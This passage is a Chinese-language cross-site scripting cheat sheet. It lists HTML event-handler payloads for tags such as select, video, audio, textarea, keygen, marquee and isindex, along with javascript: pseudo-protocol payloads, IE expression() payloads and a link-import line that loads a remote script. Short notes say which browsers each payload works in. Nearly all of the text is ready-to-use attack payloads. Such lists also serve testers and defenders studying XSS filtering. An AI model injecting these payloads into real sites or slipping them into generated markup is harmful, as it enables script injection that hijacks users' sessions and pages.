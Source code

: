 `<select>`

```php+HTML
<select onfocus=alert(1)></select>
通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
<select onfocus=alert(1) autofocus>
```

`<video>`

```php+HTML
<video><source onerror="alert(1)">
```

`<audio>`

```php+HTML
<audio src=x onerror=alert("xss");>
```

`<textarea>`

```php+HTML
<textarea onfocus=alert("xss"); autofocus>
```

`<keygen>`

```php+HTML
<keygen autofocus onfocus=alert(1)> //仅限火狐
```

`<marquee>`

```php+HTML
<marquee onstart=alert("xss")></marquee> //Chrome不行，火狐和IE都可以
```

`<isindex>`

```php+HTML
<isindex type=image src=1 onerror=alert("xss")>//仅限于IE
```

利用link远程包含js文件

```php+HTML
在无CSP的情况下才可以
<link rel=import href="http://127.0.0.1/1.js">
```

javascript伪协议

```php+HTML
<a href="javascript:alert('xss');">xss</a>
<iframe src=javascript:alert('xss');></iframe>
<img src=javascript:alert('xss')>//IE7以下
<form action="Javascript:alert(1)"><input type=submit>
```

expression属性

```php+HTML
<img style="xss:expression(alert('xss''))"> // IE7以下
<div style="color:rgb('' x:expression(alert(1))"></div> //IE7以下
<style>#test{x:expression(alert(/XSS/))}</style> // IE7以下
```
